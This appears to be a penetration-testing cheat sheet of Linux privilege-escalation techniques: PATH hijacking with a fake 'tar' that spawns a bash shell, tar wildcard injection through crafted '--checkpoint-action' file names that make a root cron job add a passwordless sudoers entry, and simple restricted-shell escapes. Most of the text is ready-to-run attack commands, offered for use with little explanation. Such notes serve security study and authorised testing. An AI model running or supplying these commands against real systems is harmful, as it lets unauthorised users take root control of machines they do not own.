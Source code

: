 # Path Abuse
When a script does not specify the full path in a command and there is direct control over the PATH variable. This replaces a common binary with a malicious script. 
* SUID binaries that call a command/utility without a full path
* Script/cron job that call a command without a full path
* Writable directories in PATH
* Search order priority goes from left to right

**1. Inspect Script Command(s)**

**2. Check PATH Content**
```
env | grep PATH
echo $PATH
```
**3. Check for Writable Directory in PATH:** If none are writable, but PATH can be modified, add a path in /tmp
```
echo $PATH | tr ':' '\n' | xargs -I{} ls -ld {}
```
**4. Add Directory to PATH**
```
PATH=.:${PATH}       #adds current directory to the path
export PATH          #confirms the current directory to the path
echo $PATH           #display path to double check
```
**5. Replace Binary:** Change the binary (tar) with the one used in the command; change the content if necessary.
```
echo -e '#!/bin/bash\n/bin/bash' > tar
chmod +x tar
```
**6. Escalate Privileges:** If the binary can be executed as sudo, run it with sudo. If it is a cron job, wait for it to be executed. 

<br>

# Wildcard Abuse
Check cron jobs (running as a high-privilged user) for a tar command that uses the wildcard \*. The user has to have w access to the directory that the cronjob is accessing (archiving in this case)

**1. Check Cron Job**
```
ls -lah /etc/cron*
crontab -l           #unprivileged attempt
sudo crontab -l      #if privileges allow it
grep "CRON" /var/log/syslog
```
**2. Leverage Cron Job:** Write the following in the same directory as the cron job
```
echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```
**3. Check Sudo Privileges**
```
sudo -l
sudo -i
```

<br>

# Escaping Restricted Shells

**1. Command Injection**
```
ls -l `pwd`
```
**2. Command Chaining**
```
pwd; ls /
```
**3. Environment Variables**
```
echo "$(<file.ext )"
```
